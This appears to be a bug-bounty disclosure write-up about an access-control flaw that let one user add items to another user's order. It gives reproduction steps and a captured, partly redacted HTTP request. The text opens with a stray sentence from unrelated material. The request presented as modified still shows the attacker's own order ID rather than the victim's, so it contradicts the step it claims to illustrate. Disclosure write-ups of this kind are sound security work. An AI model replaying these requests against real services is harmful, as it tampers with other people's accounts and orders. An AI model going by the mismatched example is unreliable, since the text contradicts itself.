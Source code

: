 These methods will help you send the GET request to the specified endpoint and analyze the response.

---

# Improper Access Control in APIs Earns $3,900 Bounty

### The Bug: Exploiting Order Modification

The platform lets users modify their orders before the shopping process begins. However, the system didn't properly validate whether a user owned the order they were modifying. This oversight allowed attackers to exploit the feature.

Here's how the bug was discovered:

### Steps to Reproduce

1. **Place Two Orders**:

- Using two accounts (attacker and victim), I placed two future-dated orders in the same shop.
- Attacker's order ID: `1813918441`
- Victim's order ID: `181396149`

2. **Capture the HTTP Request**:

- While adding an item to the attacker's order, I intercepted the following HTTP POST request:

```
POST /aviator/v2/orders/1813918441/add.json  
Content-Type: application/json  
{"products":[{"id":4799771,"qty":1,"note":""}]}
```

**Modify the Order ID**:

Researcher replaced the attacker's order ID (`1813918441`) with the victim's order ID   (`181396149`).

```
POST /aviator/v2/orders/1813918441/add.json?anonymous_id███deac090c-2b05-4402-b33f-468060058145█████white_label_key████████shipt████████segway_version██████6668a3d631495cebf307423e23a588c5f9d929c1████zip█████████████user_id█████████████████████████metro_id█████████124███████store_id████████60██████bucket_number██████72███store_location_id██████████platform████████web HTTP/2
Host: ███████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/███████ Firefox/110.0
Accept: application/json, text/plain, */*
Accept-Language: fr,fr-FR;q████████0.8,en-US;q█████0.5,en;q████████0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 154
Referer: ██████
Origin: █████████
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
X-Pwnfox-Color: blue
Authorization: ██████████
Te: trailers

{"zip":"████","user_id":█████,"metro_id":124,"store_id":60,"bucket_number":72,"store_location_id":██████,"products":[{"id":4799771,"qty":1,"note":""}]}

```
